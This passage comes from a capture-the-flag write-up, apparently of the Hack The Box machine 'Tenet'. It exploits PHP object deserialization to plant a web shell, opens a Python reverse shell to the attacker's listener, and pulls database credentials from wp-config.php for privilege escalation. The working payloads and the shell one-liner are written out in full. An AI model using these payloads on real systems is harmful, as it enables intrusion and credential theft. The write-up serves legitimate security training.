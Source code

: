 This will write a php web shell `<?php system($_GET["cmd"]); ?>` to the file `0xsirius.php` and will allow us to run system commands.

Let's execute the file with `php exploit.php`

```terminal
$ php exploit.php 

O:14:"DatabaseExport":2:{s:9:"user_file";s:12:"0xsirius.php";s:4:"data";s:30:"<?php system($_GET["cmd"]); ?>";}
```

We submit the serialized object to `arepo`

```url
http://10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:12:"0xsirius.php";s:4:"data";s:30:"<?php system($_GET["cmd"]); ?>";}
```

![deserialization](8.png)

Now if we go to `10.10.10.223/0xsirius.php?cmd=id` we should get command execution.

![id](9.png)

Now let's get a reverse shell.

First we setup a listener with `nc -lvnp 9001` and run the following command on the web shell:

```bash
export RHOST="10.10.16.4";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![shell](10.png)

## **Privilege Escalation**

### www-data -> neil

Let's check `wp-config.php` since it's the one containing wordpress database credentials.

```terminal
www-data@tenet:/var/www/html$ ls 
0xsirius.php  index.html  sator.php.bak  wordpress
hack.php      sator.php   users.txt
www-data@tenet:/var/www/html$ cd wordpress/
www-data@tenet:/var/www/html/wordpress$ grep 'DB' wp-config.php 
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'neil' );
define( 'DB_PASSWORD', 'Opera2112' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
www-data@tenet:/var/www/html/wordpress$ 
```
